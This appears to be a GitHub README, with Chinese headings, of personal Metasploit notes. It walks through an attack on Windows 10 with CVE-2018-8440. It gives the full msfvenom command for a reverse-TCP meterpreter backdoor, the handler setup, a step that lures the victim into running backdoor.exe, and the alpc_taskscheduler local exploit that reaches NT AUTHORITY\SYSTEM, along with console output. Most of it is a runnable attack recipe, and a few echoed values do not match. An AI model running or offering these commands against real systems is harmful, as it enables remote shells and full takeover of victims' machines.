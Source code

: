 # Metasploit-Note

## CVE-2018-8440
----
```
Attacker IP : 192.168.1.1
Victim IP : 192.168.1.2
Victim OS : Windows 10x64
```

Step 1. 產生後門程式
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > backdoor.exe
```
Step 2. 監聽回傳設定
```
$ msfconsole
msf > use mulit/handler
msf exploit(mulit/handler) >  set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(mulit/handler) >  set LHOST 192.168.1.1
LHOST => 192.168.59.144
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444
```
Step 3. 誘使受害端點擊 backdoor.exe，並取得一般使用者權限
```
[*] Sending stage (206403 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.2:50228) at 2018-10-01 08:40:10 +0800
meterpreter > getuid
Server username: DESKTOP-E6KTUJB\User
meterpreter > background 
[*] Backgrounding session 1...
```
Step 4. 查看監聽對象資訊
```
msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                             Connection
  --  ----  ----                     -----------                             ----------
  1         meterpreter x64/windows  DESKTOP-E6KTUJB\User @ DESKTOP-E6KTUJB  192.168.1.1:4444 -> 192.168.1.2:50228 (192.168.59.146)
```
Step 5. 使用 CVE-2018-8440 漏洞腳本，並取得系統權限
```
msf exploit(multi/handler) > use exploit/windows/local/alpc_taskscheduler 
msf exploit(windows/local/alpc_taskscheduler) > show options 

Module options (exploit/windows/local/alpc_taskscheduler):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS                   no        Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64


msf exploit(windows/local/alpc_taskscheduler) > set session 1
session => 1
msf exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Checking target...
[*] Target Looks Good... trying to start notepad.exe
[*] Launching notepad.exe to host the exploit...
[+] Process 7976 launched.
[*] Writing payload dll into process 7976 memory
[*] Reflectively injecting the exploit DLL into 7976...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (192.168.1.1:4444 -> 192.168.1.2:50258) at 2018-10-01 09:16:31 +0800

C:\Windows\system32>whoami
whoami
nt authority\system
```
# Notes
* Metasploit 腳本更新
  Kali 中 .rb 的存放路徑為 /usr/share/metasploit-framework/modules/exploits 中

  將 .rb 放進去資料夾後，重新載入
  ```
  $ msfconsole
  msf > reload_all
  [*] Reloading modules from all module paths...
  ```
* 查詢可產生後門程式的類型
  ```
  $ msfvenom -l payloads
  ```
# Reference
[metasploit-framework](https://github.com/rapid7/metasploit-framework)

[metasploit-framework msfvenom](http://www.freebuf.com/sectool/72135.html)
